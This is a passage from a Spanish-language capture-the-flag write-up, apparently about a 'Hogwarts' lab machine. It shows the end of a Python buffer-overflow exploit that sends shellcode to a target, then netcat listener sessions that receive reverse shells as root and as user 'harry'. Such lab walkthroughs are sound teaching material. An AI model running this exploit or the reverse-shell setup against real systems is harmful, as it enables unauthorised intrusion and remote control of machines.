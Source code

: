```python

        try:
                # Creando conexión y enviando shellcode
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                print(f"\n[+] Conectando a {ip_addr}:{port}...\n")
                s.connect((ip_addr, port))

                # Enviando payload
                s.send(payload)
                print(f"\n[*] Payload lanzado: {payload}")

        # Manejo de errores
        except socket.error as e:
                print(f"[!] Error de conexión: {e}")

        except Exception as e:
                print(f"[!] Ocurrio un error: {e}")

        # Cerrando la conexión
        finally:
                s.close()
                print("\n[+] Cerrando conexión.")


if __name__ == '__main__':
        exploit(ip_addr, port)
```
Lo estructure mejor para que maneje errores como el **spiker.py**.

Ahora, podemos probarlo con nuestra máquina, aunque debo decir que debe ser ejecutado varias veces para poder obtener una shell.

Abre una **netcat** y ejecuta el Exploit hasta obtener la shell:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [Tu_IP] 40950
whoami
root
ls
exploitMonkeycom.py
server_hogwarts
spiker.py
```

Igual podemos probarlo directamente con la máquina víctima, si es que pusiste su IP en el script.

Abre una **netcat** y ejecuta el Exploit:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.007] 34188
whoami
harry
```
Con esto, hemos ejecutado un **Buffer Overflow** exitosamente.
